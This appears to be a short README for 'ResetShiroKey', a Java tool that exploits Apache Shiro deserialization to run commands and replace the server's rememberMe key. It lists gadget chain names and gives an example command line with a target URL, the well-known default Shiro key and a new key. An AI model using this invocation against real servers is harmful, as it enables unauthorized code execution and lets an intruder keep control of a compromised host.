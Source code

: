 # ResetShiroKey
shiro命令执行动态修改key
jdk11环境
Usage: java -jar resetShiroKey.jar gadget target_url old_key new_key [proxy]

Usage: java -jar resetShiroKey.jar cc2 http://192.168.38.38/login.jsp kPH+bIxk5D2deZiIxcaaaA== 4A3VhmFLUs0KTA3Kprsdag== http:127.0.0.1:8080

Usage: Gadget have cc2 cc3 cck1 cck2 cb18
